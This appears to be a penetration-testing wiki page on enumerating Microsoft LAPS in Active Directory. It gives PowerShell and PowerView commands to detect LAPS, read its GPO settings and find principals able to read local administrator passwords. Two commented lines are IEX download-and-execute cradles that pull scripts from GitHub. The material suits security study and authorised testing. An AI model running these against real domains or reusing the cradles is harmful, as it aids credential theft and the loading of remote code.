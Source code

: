 # LAPS

## Theory

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

This page is about enumeration, you may have a look on [LAPS-based attacks](broken-reference) and [LAPS-based persistences.](../../persistence/laps.md)

## Practice

### Check If Activated

{% tabs %}
{% tab title="Files/Folders" %}
We can check if LAPS is installed by enumerating related files and folders

```powershell
# Identify if installed to Program Files
# PowerShell
Get-ChildItem 'C:\Program Files\LAPS\CSE\'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\'

#Cmd
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'
```
{% endtab %}

{% tab title="Domain Object" %}
We can guess if LAPS is installed by checking the LAPS AD Object:

```powershell
#ActiveDirectory PowerShell module (RSAT)
#iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'

#PowerView
#IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
Get-DomainObject -SearchBase "LDAP://DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=domain,DC=local"

#PowerView
# Find computers where the expiration time is not empty, any user can read this
Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```
{% endtab %}

{% tab title="GPOs" %}
We may enumerate if LAPS is installed by checking GPOs with [PowerView](../tools/powerview.md).

```powershell
#PowerView
# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
Get-DomainGPO | ? { $_.DisplayName -like "*password solution*" } | select DisplayName, Name, GPCFileSysPath | fl
```

If you find a GPO, you can resolve computers linked to this GPO as follow&#x20;

```powershell
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```
{% endtab %}

{% tab title="Registry" %}
We can check if LAPS is installed by enumerating related registries

```powershell
#Powershell
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft Services\AdmPwd" -Name AdmPwdEnabled

#Cmd
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```
{% endtab %}

{% tab title="LAPSToolkit" %}
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a tool to audit and attack LAPS environments. We may use following commands to enum computers which have LAPS enabled.

```powershell
# Import LAPSToolkit
. .\LAPSToolkit.ps1

# Gets all computers which have LAPS enabled
Get-LAPSComputers
```
{% endtab %}
{% endtabs %}

### LAPS GPO Configuration

By reading the GPO configuration file, you may retreive following informations: Password complexity, Password length, Password chage frenquency, the LAPS managed account name, and password expiration protection policy.

{% tabs %}
{% tab title="Registry.pol" %}
If LAPS is deployed by GPO, we can identify the configuration file to discover some details about the configuration.&#x20;

```powershell
Get-Content "<GPCFileSysPath>\Machine\Registry.pol"
```

After downloading the GPO registry.pol file which location is at the `gpcfilesyspath` obtained while enumerating GPOs, we can use`Parse-PolFile` from [**GPRegistryPolicyParser** ](https://github.com/PowerShell/GPRegistryPolicyParser)and obtain LAPS related informations.

```powershell
Parse-PolFile "Registry.pol"
```
{% endtab %}
{% endtabs %}

### LAPS Read Password Access

You may enumerate principals that can read the LAPS password on given systems by using [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), [admpwd.ps](https://www.powershellgallery.com/packages/AdmPwd.PS/6.3.1.0),  or even [adsisearcher](https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/).

{% tabs %}
{% tab title="PowerView" %}
We can enumerate who can read the LAPS password using [Powersploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for a giver computer
Get-AdmPwdPassword -ComputerName computer01 | fl

# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for each computers
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }

# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for each OU
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```
{% endtab %}

{% tab title="AdmPwd.PS" %}
We can enumerate who can read the LAPS password using [admpwd.ps](https://www.powershellgallery.com/packages/AdmPwd.PS/6.3.1.0) (LAPS PowerShell module). You can check if it's installed as follow:

```powershell
#Check if LAPS Powershell module is installed
#By enumerating files
Get-ChildItem "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS"

#By enumerating commands
Get-Command *AdmPwd*
```

To enumerate, use following commands

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd for a given OU
Find-AdmPwdExtendedRights -Identity <OU> | fl
```
{% endtab %}

{% tab title="LAPSToolkit" %}
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) is a tool to audit and attack LAPS environments. We may use following commands to enum users that can read LAPS passwords.&#x20;

`Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access. `Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights". This will reveal any users that can read the attribute without having had it specifically delegated to them.

```powershell
# Get Groups that can read the ms-Mcs-AdmPwd attribute
Find-LAPSDelegatedGroups

# Checks for ExtendedRights for Laps on each AD Computer
Find-AdmPwdExtendedRights
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps" %}

{% embed url="https://buaq.net/go-39069.html" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps" %}
